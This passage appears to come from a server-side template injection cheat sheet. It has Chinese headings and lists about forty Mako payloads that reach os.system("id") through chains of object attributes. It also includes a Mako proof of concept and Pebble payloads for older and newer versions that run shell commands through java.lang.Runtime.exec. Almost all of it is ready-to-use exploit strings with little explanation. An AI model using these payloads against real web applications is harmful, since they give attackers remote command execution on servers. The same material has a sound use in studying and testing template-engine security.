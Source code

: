 	${self.module.cache.compat.inspect.linecache.os.system("id")}
	${self.template._mmarker.module.runtime.util.os.system("id")}
	${self.attr._NSAttr__parent.module.cache.util.os.system("id")}
	${self.template.module.filters.compat.inspect.os.system("id")}
	${self.template.module.runtime.compat.inspect.os.system("id")}
	${self.module.filters.compat.inspect.linecache.os.system("id")}
	${self.module.runtime.compat.inspect.linecache.os.system("id")}
	${self.template.module.runtime.exceptions.util.os.system("id")}
	${self.attr._NSAttr__parent.module.runtime.util.os.system("id")}
	${self.context._with_template.module.cache.util.os.system("id")}
	${self.module.runtime.exceptions.compat.inspect.os.system("id")}
	${self.template.module.cache.util.compat.inspect.os.system("id")}
	${self.context._with_template.module.runtime.util.os.system("id")}
	${self.module.cache.util.compat.inspect.linecache.os.system("id")}
	${self.template.module.runtime.util.compat.inspect.os.system("id")}
	${self.module.runtime.util.compat.inspect.linecache.os.system("id")}
	${self.module.runtime.exceptions.traceback.linecache.os.system("id")}
	${self.module.runtime.exceptions.util.compat.inspect.os.system("id")}
	${self.template._mmarker.module.cache.compat.inspect.os.system("id")}
	${self.template.module.cache.compat.inspect.linecache.os.system("id")}
	${self.attr._NSAttr__parent.template.module.cache.util.os.system("id")}
	${self.template._mmarker.module.filters.compat.inspect.os.system("id")}
	${self.template._mmarker.module.runtime.compat.inspect.os.system("id")}
	${self.attr._NSAttr__parent.module.cache.compat.inspect.os.system("id")}
	${self.template._mmarker.module.runtime.exceptions.util.os.system("id")}
	${self.template.module.filters.compat.inspect.linecache.os.system("id")}
	${self.template.module.runtime.compat.inspect.linecache.os.system("id")}
	${self.attr._NSAttr__parent.template.module.runtime.util.os.system("id")}
	${self.context._with_template._mmarker.module.cache.util.os.system("id")}
	${self.template.module.runtime.exceptions.compat.inspect.os.system("id")}
	${self.attr._NSAttr__parent.module.filters.compat.inspect.os.system("id")}
	${self.attr._NSAttr__parent.module.runtime.compat.inspect.os.system("id")}
	${self.context._with_template.module.cache.compat.inspect.os.system("id")}
	${self.module.runtime.exceptions.compat.inspect.linecache.os.system("id")}
	${self.attr._NSAttr__parent.module.runtime.exceptions.util.os.system("id")}
	${self.context._with_template._mmarker.module.runtime.util.os.system("id")}
	${self.context._with_template.module.filters.compat.inspect.os.system("id")}
	${self.context._with_template.module.runtime.compat.inspect.os.system("id")}
	${self.context._with_template.module.runtime.exceptions.util.os.system("id")}
	${self.template.module.runtime.exceptions.traceback.linecache.os.system("id")}

	POC
	>>> print(Template("${self.module.cache.util.os}").render())
	<module 'os' from '/usr/local/lib/python3.10/os.py'>
 #### Pebble
  	基本注入
	{{ someString.toUPPERCASE() }}
	代码执行
	旧版本< 版本 3.0.9
	{{ variable.getClass().forName('java.lang.Runtime').getRuntime().exec('ls -la') }}
	新版本
	{% set cmd = 'id' %}
	{% set bytes = (1).TYPE
	     .forName('java.lang.Runtime')
	     .methods[6]
	     .invoke(null,null)
	     .exec(cmd)
	     .inputStream
	     .readAllBytes() %}
	{{ (1).TYPE
	     .forName('java.lang.String')
	     .constructors[0]
	     .newInstance(([bytes]).toArray()) }}
